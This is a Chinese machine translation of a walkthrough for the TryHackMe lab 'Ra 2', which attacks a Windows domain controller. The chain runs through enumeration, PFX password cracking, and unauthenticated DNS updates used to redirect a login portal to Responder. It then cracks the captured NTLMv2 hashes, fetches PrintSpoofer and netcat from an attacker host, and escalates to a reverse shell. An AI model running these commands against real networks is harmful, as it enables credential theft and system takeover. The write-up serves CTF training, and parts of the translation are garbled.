# THM 报告:Ra 2

> 原文：<https://infosecwriteups.com/thm-writeup-ra-2-ed3de7c719a8?source=collection_archive---------1----------------------->


[RA 壁纸。](https://wallpaperaccess.com/ra)

在本文中，我通过枚举在开放端口上运行的服务、滥用不安全的 DNS 动态更新以及使用 PrintSpoofer 漏洞提升我在域控制器上的权限，逐步完成了利用 windows 机器的过程。这个挑战在 [TryHackMe](https://tryhackme.com/room/ra2) 平台上有，标题为“ **Ra 2** ，由用户“ [*4ndr34z*](https://tryhackme.com/p/4ndr34z) ”创建。

# 放弃

我喜欢在一篇文章之前添加一个简短的免责声明，以鼓励人们在阅读本文之前尝试一下这个房间，因为在这篇文章中显然会有**剧透****。我相信，如果你先自己尝试，然后在遇到困难或需要提示时再回来写这篇文章，你会更喜欢这个挑战。因此，没有任何进一步的拖延，让我们开始吧！**

# **挑战描述**

> **WindCorp 最近出现了安全漏洞。自那以后，他们从错误中吸取教训，加强了基础设施。但也许还不够？您已成功进入他们的本地网络…**

# **端口枚举**

**我开始枚举目标机器，用 **NMAP** 执行快速扫描来识别任何打开的端口。**

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.207.234 PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 125
88/tcp    open  kerberos-sec     syn-ack ttl 125
135/tcp   open  msrpc            syn-ack ttl 125
139/tcp   open  netbios-ssn      syn-ack ttl 125
389/tcp   open  ldap             syn-ack ttl 125
443/tcp   open  https            syn-ack ttl 125
445/tcp   open  microsoft-ds     syn-ack ttl 125
464/tcp   open  kpasswd5         syn-ack ttl 125
593/tcp   open  http-rpc-epmap   syn-ack ttl 125
636/tcp   open  ldapssl          syn-ack ttl 125
2179/tcp  open  vmrdp            syn-ack ttl 125
3268/tcp  open  globalcatLDAP    syn-ack ttl 125
3269/tcp  open  globalcatLDAPssl syn-ack ttl 125
5222/tcp  open  xmpp-client      syn-ack ttl 125
5223/tcp  open  hpvirtgrp        syn-ack ttl 125
5229/tcp  open  jaxflow          syn-ack ttl 125
5262/tcp  open  unknown          syn-ack ttl 125
5263/tcp  open  unknown          syn-ack ttl 125
5269/tcp  open  xmpp-server      syn-ack ttl 125
5270/tcp  open  xmp              syn-ack ttl 125
5275/tcp  open  unknown          syn-ack ttl 125
5276/tcp  open  unknown          syn-ack ttl 125
7070/tcp  open  realserver       syn-ack ttl 125
7443/tcp  open  oracleas-https   syn-ack ttl 125
7777/tcp  open  cbt              syn-ack ttl 125
9090/tcp  open  zeus-admin       syn-ack ttl 125
9091/tcp  open  xmltec-xmlmail   syn-ack ttl 125
9389/tcp  open  adws             syn-ack ttl 125
49389/tcp open  unknown          syn-ack ttl 125
49666/tcp open  unknown          syn-ack ttl 125
49668/tcp open  unknown          syn-ack ttl 125
49669/tcp open  unknown          syn-ack ttl 125
49670/tcp open  unknown          syn-ack ttl 125
49673/tcp open  unknown          syn-ack ttl 125
49698/tcp open  unknown          syn-ack ttl 125
```

**查看输出，我可以看到有 35 个端口打开。接下来，我使用 NMAP 来识别每个端口上运行的服务，并使用通用的 NSE 脚本来查找我可以利用的任何常见漏洞。**

```
nmap -sV -sC -Pn -v -oN nmap-report -p 53,88,135,139,443,445,464,593,636,2179,3268,3269,5222,5223,5229,5262,5263,5269,5270,5275,5276,7070,7443,7777,9090,9091,9389,49389,49666,49668,49669,49670,49673,49698 10.10.164.198
```

**我可以看到 NMAP 的大量输出和一些有趣的服务，我可以进一步列举。**

# **DNS 枚举**

**根据 NMAP 检索到的 LDAP 端口信息，我可以看到正在使用的域是 **windcorp.thm** 。**

```
636/tcp   open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: **windcorp.thm0**., Site: Default-First-Site-Name)
```

**NMAP 识别的第一个开放端口是端口 53(即 DNS)。使用 **dig** 执行一些基本的枚举，列出所有的“***【windcorp . thm】***”DNS 记录，给我第一个标志。**

```
dig windcorp.thm any @10.10.172.217;; ANSWER SECTION:
windcorp.thm.           600     IN      A       10.10.172.217
windcorp.thm.           3600    IN      NS      fire.windcorp.thm.
windcorp.thm.           3600    IN      SOA     fire.windcorp.thm. hostmaster.windcorp.thm. 295 900 600 86400 3600
windcorp.thm.           86400   IN      TXT     **"THM{.......}"**
```

**该标志还向**不安全的动态 DNS 更新**提供了提示。不安全的动态 DNS 更新允许您在没有身份验证的情况下更新 DNS 记录。这与安全动态 DNS 更新相反，在安全动态 DNS 更新中，只有域成员可以更新他们的条目。这是通过使用 kerberos 向 DNS 服务器验证客户端来实现的。这将有助于在一些进一步的列举(铺垫😉).**

# ****网页枚举****

**根据 NMAP 的输出，我可以看到端口 443 是开放的，并且托管着一个网站。**

```
443/tcp   open  ssl/http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: **DNS:fire.windcorp.thm, DNS:selfservice.windcorp.thm, DNS:selfservice.dev.windcorp.thm**
| Issuer: commonName=fire.windcorp.thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-29T03:31:08
| Not valid after:  2028-05-29T03:41:03
| MD5:   804b dc39 5ce5 dd7b 19a5 851c 01d1 23ad
|_SHA-1: 37f4 e667 cef7 5cc4 47c9 d201 25cf 2b7d 20b2 c1f4
|_ssl-date: 2022-04-15T13:35:16+00:00; -1s from scanner time.
| tls-alpn: 
|_  http/1.1
```

**我还可以看到三个主机名分别叫做“***fire . wind corp . thm***”“***self service . wind corp . thm***”和“***self service . dev . wind corp . thm***”，我把它们添加到我的 **hosts** 文件中。**

```
10.10.138.163   fire.windcorp.thm selfservice.windcorp.thm selfservice.dev.windcorp.thm
```

**我从访问“***fire . wind corp . thm***”网站开始。在主页上，我可以看到来自管理团队的消息，声明他们不再使用不安全的 IM 软件，这是对第一台 [THM Ra 机器](https://tryhackme.com/room/ra)的引用。他们还提到他们在任何地方都使用 T21 证书。**

****

**来自管理层的消息。**

**我还可以看到一个链接到“***self service . wind corp . thm***”的按钮，这导致了一个登录弹出窗口。**

****

**自助登录。**

**使用 **Burpsuite** ，我可以看到当用户试图通过门户登录时使用了 NTLM 授权，但除此之外，我看不到任何其他感兴趣的东西。**

****

**Burpsuite 拦截自助登录。**

**我可以看到主页上有一个 IT 支持人员的列表。我还可以看到图标会改变颜色，这可能表明用户何时处于活动状态(即绿色、琥珀色、灰色)。**

****

**IT 支持人员名单。**

**查看主网站的页面源，我还可以看到目标机器上存在的潜在用户列表。**

****

**潜在用户。**

**继续往下，我还可以看到另外三名员工。**

****

**员工形象。**

**在新标签中打开这些员工图片会提供更多潜在的用户名。**

```
https://fire.windcorp.thm/img/**Emilieje**.jpg
https://fire.windcorp.thm/img/**lilyleAndSparky**.jpg
https://fire.windcorp.thm/img/**kirkug**.jpg
```

**我继续列举，用 **FFuF** 工具快速搜索任何隐藏的目录或网页。**

```
ffuf -c -u [https://fire.windcorp.thm/FUZZ](https://fire.windcorp.thm/FUZZ) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .php,.bak,.old -icimg                     [Status: 301, Size: 153, Words: 9, Lines: 2]
css                     [Status: 301, Size: 153, Words: 9, Lines: 2]
vendor                  [Status: 301, Size: 156, Words: 9, Lines: 2]
IMG                     [Status: 301, Size: 153, Words: 9, Lines: 2]
CSS                     [Status: 301, Size: 153, Words: 9, Lines: 2]
Img                     [Status: 301, Size: 153, Words: 9, Lines: 2]
**powershell**              [Status: 302, Size: 165, Words: 6, Lines: 4]
```

**我看到有一个隐藏的 Windows PowerShell Web 访问页面，但我目前没有任何登录凭据。**

****

**Windows PowerShell Web 访问页。**

**继续前进，我开始看“***self service . dev . wind corp . thm****”。导航到这个地址，我可以看到该网站仍在建设中。***

****

**网站建设中。**

**我用 **FFuF** 工具再次搜索任何隐藏的目录或网页。**

```
ffuf -c -u [https://selfservice.dev.windcorp.thm/FUZZ](https://selfservice.dev.windcorp.thm/FUZZ) -w /usr/share/wordlists/dirb/common.txt -e .php,.bak,.oldaspnet_client           [Status: 301, Size: 174, Words: 9, Lines: 2]
**backup**                  [Status: 301, Size: 167, Words: 9, Lines: 2]
index.html              [Status: 200, Size: 106, Words: 3, Lines: 6]
```

**我看到有一个名为“ ***备份*** ”的隐藏文件夹是可以访问的。在里面，我可以看到两个名为“ ***cert.pfx*** ”和“ ***web.config*** ”的文件。**

****

**备份文件夹内容。**

**根据[黑客技巧](https://book.hacktricks.xyz/cryptography/certificates):**

> **PKCS#12 或 PFX 格式是一种二进制格式，用于在一个可加密文件中存储服务器证书、中间证书和私钥。PFX 文件通常有扩展名，如。pfx 和. p12\. PFX 文件通常在 Windows 计算机上用于导入和导出证书和私钥。**

**我可以使用 **openssl** 查看证书细节，但不幸的是，它有密码保护。**

```
$ openssl pkcs12 -info -in cert.pfx Enter Import Password:
MAC: sha256, Iteration 2000
MAC length: 32, salt length: 20
**Mac verify error: invalid password?**
```

**我决定看看是否有办法提取存储在该证书中的信息。我找到了一个叫 [**crackpkcs12**](https://github.com/crackpkcs12/crackpkcs12) 的工具，可以用来破解 PKCS#12 文件密码(扩展名. p12 或者。pfx)。我用这个工具和 **rockyou** 密码列表进行了一次字典攻击。**

```
crackpkcs12 -d rockyou.txt cert.pfx
```

****

**证书密码。**

**这是可行的，我检索了创建证书时使用的密码，但是，我还不太确定我能做些什么。我决定对可用的服务进行更多的枚举。**

# ****SMB 枚举****

**我可以看到端口 139 和 445 是打开的。我试图使用 **smbmap** 枚举共享，但不幸的是，匿名登录没有启用，导致了一个死胡同。**

```
smbmap -H 10.10.138.163 -L
```

# **Kerberos 枚举**

**NMAP 扫描的输出显示端口 88 是开放的，Kerberos 在其上运行。**

```
88/tcp    open  kerberos-sec        Microsoft Windows Kerberos (server time: 2022-04-15 13:32:06Z)
```

**使用前面在执行 web 枚举时看到的用户列表，我决定通过滥用 Kerberos 预认证来使用**Kerberos**枚举有效的 active directory 用户。**

```
./kerbrute_linux_amd64 userenum --dc 10.10.172.217 -d windcorp.thm -o kerbrute-user-enum userlist[+] VALID USERNAME:       organicfish718@windcorp.thm
[+] VALID USERNAME:       Edeltraut@windcorp.thm
[+] VALID USERNAME:       angrybird253@windcorp.thm
[+] VALID USERNAME:       buse@windcorp.thm
[+] VALID USERNAME:       Emile@windcorp.thm
[+] VALID USERNAME:       tinygoose102@windcorp.thm
[+] VALID USERNAME:       brownostrich284@windcorp.thm
[+] VALID USERNAME:       sadswan869@windcorp.thm
[+] VALID USERNAME:       goldencat416@windcorp.thm
[+] VALID USERNAME:       whiteleopard529@windcorp.thm
[+] VALID USERNAME:       orangegorilla428@windcorp.thm
[+] VALID USERNAME:       happymeercat399@windcorp.thm
[+] VALID USERNAME:       kirkug@windcorp.thm
[+] VALID USERNAME:       emilieje@windcorp.thm
[+] VALID USERNAME:       lilyle@windcorp.thmDone! Tested 48 usernames (15 valid) in 1.858 seconds
```

**我能够识别 15 个有效的用户名。我的下一个直觉是用 Impacket 执行**as respreposing**,但不幸的是，没有一个帐户被发现是可恢复的，这导致了另一个死胡同😑。**

```
sudo python3 GetNPUsers.py windcorp.thm/ -dc-ip 10.10.172.217 -usersfile kerberos-usernames -no-pass -request -outputfile kerberos-users-found
```

# **不安全的 DNS 更新**

**在我的枚举的其余部分陷入死胡同之后，我决定再次回顾第一个标志中提供的提示。根据我目前收集的信息，似乎可以进行不安全的 DNS 更新。我可以通过使用[**n update**](https://linux.die.net/man/8/nsupdate)尝试添加一个 TXT 记录来测试这一点。**

```
$ nsupdate> server 10.10.172.217
> update add test.windcorp.thm 5 TXT "This is a Test for Insecure DNS Update"
> send
```

**接下来，我可以使用 **nslookup** 来确认 TXT 记录已经被添加。**

```
> server 10.10.172.217
Default server: 10.10.172.217
Address: 10.10.172.217#53
> set type=txt
> test.windcorp.thm
```

****

**添加了 DNS TXT 记录。**

**我看到 TXT 记录已经成功添加了！那现在怎么办？😅**

**最初，我并不确定我该拿这个做什么。我花了一些时间回顾我收集的信息，并开始思考我可以用它来获得一个初步的立足点。我创建了以下列表:**

*   **在“***self service . wind corp . thm***”有一个使用 NTLM 授权的自助服务登录门户。**
*   **根据图标颜色的变化，似乎有活动用户登录。**
*   **我找到了一个证书并破解了它的密码。**
*   **我能够在没有认证的情况下操作 DNS 记录。**
*   **有一个 PowerShell web 访问页面，但我没有凭据。**

**看到自助登录门户如何使用 NTLM 授权，我想到了如何使用 Responder 来拦截和捕获 NTLM 散列。如果我可以模拟“***self service . wind corp . thm***”域，将 DNS 记录替换为指向我的 IP 地址的记录，那么我可能能够捕获通过自助服务登录门户登录的用户的 NTLM 哈希。**

## **DNS 缓存中毒和响应者**

**为了实现这一点，我可以执行 DNS 缓存中毒。**

> **DNS 缓存中毒是在 DNS 缓存中输入错误信息的行为，因此 DNS 查询返回不正确的响应，用户被定向到错误的网站。**

**我首先使用 **openssl** 从“ ***cert.pfx*** ”文件中提取证书和私钥，并将其保存到“***/usr/share/responder/certs/***”。**

```
# Extract Cert
openssl pkcs12 -in cert.pfx -out selfservice.cert.pem -clcerts -nokeys# Extract Key
openssl pkcs12 -in cert.pfx -out selfservice.key.pem -nocerts -nodes
```

**接下来，我编辑了“***/etc/Responder/Responder . conf***”中的 Responder HTTPS 服务器设置。**

```
[HTTPS Server]; Configure SSL Certificates to use
SSLCert = **/usr/share/responder/certs/selfservice.cert.pem**
SSLKey = **/usr/share/responder/certs/selfservice.key.pem**
```

**既然 responder 的 HTTPS 设置已经配置好了，我使用 **nsupdate** 删除了“***self service . wind corp . thm***”的旧 A DNS 记录，并添加了一个解析为我的攻击机器 IP 地址的新 A 记录。**

```
nsupdate

> server 10.10.231.107
> update delete selfservice.windcorp.thm
> send
> update add selfservice.windcorp.thm 86400 A 10.*.*.*
> send
> quit
```

**最后，我执行 responder 并等待它捕获 NTLM 散列。**

```
python3 Responder.py -I tun0 -rdwv
```

****

**响应程序捕获的 NTLMv2 哈希。**

**几秒钟后，Responder 为用户"*"捕获一个 NTLMv2 哈希😃！我现在可以使用 **hashcat** 来破解 NTLMv2 哈希。***

```
*hashcat64.exe -m 5600 hash.txt rockyou.txt*
```

******

***破解的 NTLMv2 哈希。***

***使用这些凭证，我能够登录到前面看到的 PowerShell web 访问页面。从这里，我能够输入命令并检索第二个标志。***

******

***旗帜 2。***

# ***权限提升***

***一旦我登录到机器上，我执行一些基本的手动枚举，以确定一种方法来提升我的特权。***

```
*whoami /all*
```

******

***特权信息。***

***我看到当前用户有“***SeImpersonatePrivilege***”。根据[黑客技巧](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege-3.1.1):***

> ***任何拥有这个特权的进程都可以**模拟**(但不能创建)任何它能够获得句柄的**令牌**。你可以从一个 **Windows 服务** (DCOM)中获得一个**特权令牌**，使其针对漏洞执行一个 **NTLM 认证**，然后作为**系统**执行一个进程。使用 [juicy-potato](https://github.com/ohpe/juicy-potato) 、 [RogueWinRM](https://github.com/antonioCoco/RogueWinRM) (需要禁用 WinRM)、 [SweetPotato](https://github.com/CCob/SweetPotato) 、 [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) 来利用它。***

***我决定利用 PrintSpoofer 漏洞。我用 PowerShell 上传了“**【PrintSpoofer.exe】**”和“***【nc.exe】***”可执行文件。***

```
*# setup HTTP server on attacking machine where executables are stored.sudo python3 -m http.server 80# Use Powershell to upload the executables.Invoke-WebRequest -Uri [http://10.*.*.*/PrintSpoofer.exe](http://10.2.36.156/PrintSpoofer.exe) -Outfile printspoofer.exe
Invoke-WebRequest -Uri [http://10.*.*.*/nc.exe](http://10.2.36.156/nc.exe) -Outfile nc.exe*
```

***接下来，我用 **netcat** 执行了“***PrintSpoofer.exe***”漏洞，创建了一个交互式 shell。***

```
*nc -lvnp 4444*
```

******

******PrintSpoofer.exe***利用 **netcat。*****

***这给了我一个提升的交互式外壳，从那里我可以得到最终的标志！😄***

******

***最终旗帜。***

# ***最后的想法***

***我真的很喜欢在这个房间里工作。它需要大量的枚举和检查服务，比如 DNS，这可能是你通常会忽略的。最初的立足点也非常有趣，需要您执行非常彻底的信息收集，以便了解您究竟可以如何利用不安全的 DNS 动态更新。谢谢你一直读到最后，继续黑下去😄！***